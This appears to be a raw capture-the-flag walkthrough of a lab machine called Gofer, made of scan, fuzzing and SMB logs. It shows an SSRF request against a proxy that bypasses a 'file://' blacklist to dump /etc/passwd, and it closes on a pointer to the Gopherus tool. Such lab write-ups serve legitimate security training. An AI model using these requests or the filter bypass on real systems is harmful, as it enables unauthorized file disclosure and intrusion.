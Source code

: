 gofer 10.10.11.225

nmap -p- --min-rate 4000 10.10.11.225
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 08:22 CEST
Nmap scan report for 10.10.11.225
Host is up (0.20s latency).
Not shown: 63571 filtered tcp ports (no-response), 1960 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

nmap -p 80,139,445 -sC -sV --min-rate 3000 10.10.11.225

Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 08:26 CEST
Nmap scan report for 10.10.11.225
Host is up (0.12s latency).

PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to http://gofer.htb/
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: Host: gofer.htb

Host script results:
| smb2-time: 
|   date: 2023-08-03T06:26:56
|_  start_date: N/A
|_nbstat: NetBIOS name: GOFER, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.23 seconds

echo "10.10.11.225 gofer.htb" | sudo tee -a /etc/hosts

**Corporate website**
- Jeff Davis - Chief Executive Officer 
- Jocelyn Hudson - Product Manager 
- Tom Buckley - CTO 
- Amanda Blake - Accountant 

wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 400,301 -H 'Host:FUZZ.gofer.htb' http://gofer.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://gofer.htb/
Total requests: 220560

'=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                     
'=====================================================================

000001171:   401        14 L     54 W       462 Ch      "proxy" 

┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php

<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>

┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST -d 'URL=http://10.10.16.26' http://proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>

┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=http://10.10.16.26
<!-- Welcome to Gofer proxy -->

┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=file:///etc/passwd
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: file:// !</body></html>

┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=file:/etc/passwd
<!-- Welcome to Gofer proxy -->
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
jhudson:x:1000:1000:Jocelyn Hudson,,,:/home/jhudson:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
postfix:x:106:113::/var/spool/postfix:/usr/sbin/nologin
jdavis:x:1001:1001::/home/jdavis:/bin/bash
tbuckley:x:1002:1002::/home/tbuckley:/bin/bash
ablake:x:1003:1003::/home/ablake:/bin/bash
tcpdump:x:107:117::/nonexistent:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false

┌─[xbutch@parrot]─[~]
└──╼ $smbmap -H 10.10.11.225
[+] IP: 10.10.11.225:445	Name: gofer.htb                                         
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	**shares**                                            	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.13.13-Debian)

┌─[xbutch@parrot]─[~]
└──╼ $smbclient //gofer.htb/shares
Password for [WORKGROUP\xbutch]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Oct 28 21:32:08 2022
  ..                                  D        0  Fri Apr 28 13:59:34 2023
  .backup                            DH        0  Thu Apr 27 14:49:32 2023
		5061888 blocks of size 1024. 2153684 blocks available
smb: \> cd .backup
smb: \.backup\> ls
  .                                   D        0  Thu Apr 27 14:49:32 2023
  ..                                  D        0  Fri Oct 28 21:32:08 2022
  mail                                N     1101  Thu Apr 27 14:49:32 2023

		5061888 blocks of size 1024. 2153628 blocks available
smb: \.backup\> get mail
getting file \.backup\mail of size 1101 as mail (3,0 KiloBytes/sec) (average 3,0 KiloBytes/sec)

┌─[xbutch@parrot]─[~]
└──╼ $cat mail
From **jdavis@gofer.htb**  Fri Oct 28 20:29:30 2022
Return-Path: <jdavis@gofer.htb>
X-Original-To: tbuckley@gofer.htb
Delivered-To: **tbuckley@gofer.htb**
Received: from gofer.htb (localhost [127.0.0.1])
        by gofer.htb (Postfix) with SMTP id C8F7461827
        for <tbuckley@gofer.htb>; Fri, 28 Oct 2022 20:28:43 +0100 (BST)
Subject:Important to read!
Message-Id: <20221028192857.C8F7461827@gofer.htb>
Date: Fri, 28 Oct 2022 20:28:43 +0100 (BST)
From: jdavis@gofer.htb

Hello guys,

Our dear Jocelyn received another phishing attempt last week and his habit of clicking on links without paying much attention may be problematic one day. That's why from now on, I've decided that important documents will only be sent internally, by mail, which should greatly limit the risks. If possible, use an **.odt format**, as documents saved in Office Word are not always well interpreted by Libreoffice.

PS: Last thing for Tom; I know you're working on our web proxy but if you could restrict access, it will be more secure until you have finished it. It seems to me that it should be possible to do so via <Limit>

https://github.com/tarunkant/Gopherus
